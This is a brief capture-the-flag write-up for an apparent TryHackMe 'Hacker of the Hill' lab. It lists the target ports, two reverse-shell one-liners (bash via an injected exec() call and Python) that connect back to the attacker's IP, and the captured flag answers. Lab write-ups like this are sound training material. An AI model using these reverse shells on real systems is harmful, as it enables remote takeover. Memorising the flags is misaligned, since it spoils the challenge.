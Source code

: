 # Hacker_of_the_Hill 

> VOiD | Wednesday 29 December 2021 04:44:19 PM UTC

My IP : 10.8.253.221

## H1: Easy
Target IP :  10.10.118.89

```bash
Open 10.10.118.89:22
Open 10.10.118.89:80
```


## PORT 8002 [http]
```bash
http://10.10.118.89:8002/lesson/1
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.253.221/4444 0>&1'");

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.253.221",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

Flag 1 :
root@web-serv:/var/www# cat /usr/games/fortune | base64 -d
THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}
"BACK2THM{a77bc034424d18cc07567eb79c5e205c}"

Flag 2 :
THM{Bet_You're_Glad_This_Is_Not_A_Hash}
"BACK2THM{84c31ff2c6f1b3b793fb919dc19ebbb7}"

Flag 3 :
root@web-serv:/var/www/serv4# cat index.php 
THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}
"BACK2THM{a55609830258a3e1eac9123812b9c68b}"

Flag 4 :
root@web-serv:~# cat root.txt 
THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}
"BACK2THM{ff315ec593432fb5d85726c34530c5c6}"

```
